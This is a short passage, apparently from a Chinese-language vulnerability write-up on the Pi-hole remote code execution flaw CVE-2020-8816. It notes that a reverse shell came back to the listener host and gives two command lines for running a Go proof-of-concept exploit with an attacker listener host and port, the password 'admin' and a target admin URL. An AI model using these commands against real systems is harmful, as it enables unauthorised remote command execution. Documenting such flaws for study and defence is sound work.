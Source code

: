 返回主机，可以看到主机收到了连接，可以执行命令了：![3.png](resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId31.png)

### poc

> CVE-2020-8816.go

`go run CVE-2020-8816.go -host $LHOST -p $LPORT -pass admin -u http://www.0-sec.org/admin/`

`./CVE-2020-8816 -host $LHOST -p $LPORT -pass admin -u http://www.0-sec.org/admin/`
